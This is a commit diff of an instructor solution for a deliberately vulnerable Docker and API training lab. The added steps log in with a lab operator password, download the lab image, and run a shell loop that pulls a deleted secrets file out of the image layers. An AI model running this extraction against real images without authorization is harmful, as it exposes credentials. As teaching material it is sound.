

Before and after one commit to Maleesha101/AEGISDOCK, a Markdown page: docs/instructor-solution.md, the part around one of its changes. Shown at 82% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs: document reproducible attack chain and secure verification

````diff
--- a/docs/instructor-solution.md
+++ b/docs/instructor-solution.md
@@ -287,83 +36,39 @@ ciphertext = base64.b64decode(ciphertext_b64)
-**What to do**:
-1. Build secure image:
-   ```bash
-   make build-secure
-   # or: docker build -t aegisdock/api:secure -f docker/secure/Dockerfile .
-   ```
-
-2. Update docker-compose to use secure image
-
-3. Restart services:
-   ```bash
-   make reset
-   # or: docker compose down && docker compose up -d
-   ```
-
-4. Test that exploit fails:
-   ```bash
-   # Same attack steps from Phase 7-8 should now fail
-   # - Server rejects tampered ciphertext
-   # - Operator still cannot release without supervisor role
-   # - Debug endpoint should be restricted
-   ```
-
-**Expected observations after remediation**:
-- Docker history shows NO secret leakage
-- docker image inspect shows no TRAINING-FAKE-KEY
-- Secure image has no deploy/archive/ references
-- AES-GCM rejects tampered ciphertext
-- Operator cannot release containers even with artifact
-- Debug endpoint (if present) doesn't expose exploitable data
-- Audit logs show AUTHORIZATION_FAILURE for tampered attempts
-
-## Secure Implementation Summary
-
-### What Changed
-
-| Vulnerable Feature | Secure Alternative |
-|-------------------|-------------------|
-| AES-256-CBC | AES-256-GCM |
-| Static IV | Unique nonce per encryption |
-| No authentication tag | 128-bit authentication tag verified |
-| Artifact overrides role check | Artifact secondary to server-side permissions |
-| Key stored in image | Key injected at runtime |
-| Secrets in Dockerfile | .dockerignore prevents leaks |
-
-### Test Results (Post-Remediation)
+Get an API token using the login endpoint:
 
 ```bash
-# Verify Docker has no secrets
-$ docker history aegisdock/api:secure --no-trunc
-# Should show NO layers with TRAINING-FAKE-KEY
-# All old layers removed or never contained secrets
-
-# Verify exploit fails
-$ curl -X POST http://localhost/api/containers/CONT-88421/release \
-  -H "X-Terminal-Authorization: <manipulated>" \
-  # Returns: 403 Forbidden - insufficient permissions
-
-# Verify secure crypto
-$ php artisan crypto:test
-# AES-GCM with unique nonce
-# Authentication tag always verified
-# Modified ciphertext rejected
+curl -s http://localhost:8080/api/login \
+  -H 'Content-Type: application/json' \
+  -d '{"email":"operator@aegisdock.local","password":"Operator123!"}'
 ```
 
-## Instructor Notes
+Operational endpoints require a Sanctum bearer token. Map the terminals, containers, and role boundary before testing the release operation.
 
-### Teaching Points
+## 3. Obtain the image
 
-1. **Cryptographic failures compound**: CBC + static IV + no MAC = critical vulnerability
+The registry simulator exposes metadata and a download endpoint. The image tar is generated locally by the Makefile; the simulator does not connect to Docker Hub or another registry.
 
-2. **Chain matters more than individual vuln**: Even strong auth can be bypassed when crypto is weak
+```bash
+curl -fL http://localhost:8080/registry/images/aegisdock-terminal-api/download \
+  -o /tmp/aegisdock-terminal-api.tar
+docker load -i /tmp/aegisdock-terminal-api.tar
+docker history --no-trunc aegisdock/api:vulnerable
+```
 
-3. **Docker secrets are forever**: Once in an image layer, they persist even after "removal"
+## 4. Recover the generated training configuration
 
-4. **Trust boundaries**: Server-side enforcement must be primary, never client-provided
+The vulnerable Dockerfile copies `deploy/archive/terminal-gateway.env.bak` into `/opt/legacy/`, then removes it in a later layer. The setup script deletes the build-context fixture after building, but the image layer remains.
 
-5. **AEAD is the answer**: AES-GCM provides both encryption AND integrity in one operation
+```bash
+mkdir -p /tmp/aegisdock-image
+docker save aegisdock/api:vulnerable -o /tmp/aegisdock-image.tar
+tar -xf /tmp/aegisdock-image.tar -C /tmp/aegisdock-image
 
-### Lab Success Criteria
+for layer in $(find /tmp/aegisdock-image -name layer.tar); do
+  if tar -tf "$layer" 2>/dev/null | grep -q 'opt/legacy/terminal-gateway.env.bak'; then
+    tar -xOf "$layer" opt/legacy/terminal-gateway.env.bak
+  fi
+done
+```
 
-Learner should be able to:
+The recovered file contains random fake values named `TERMINAL_CRYPTO_KEY_HEX` and `TERMINAL_CRYPTO_IV_HEX`. Values differ between fresh local setups. Do not put them into documentation, commits, or screenshots.
 
````
Also changed, not shown: other parts of docs/instructor-solution.md (+132 -301 lines).
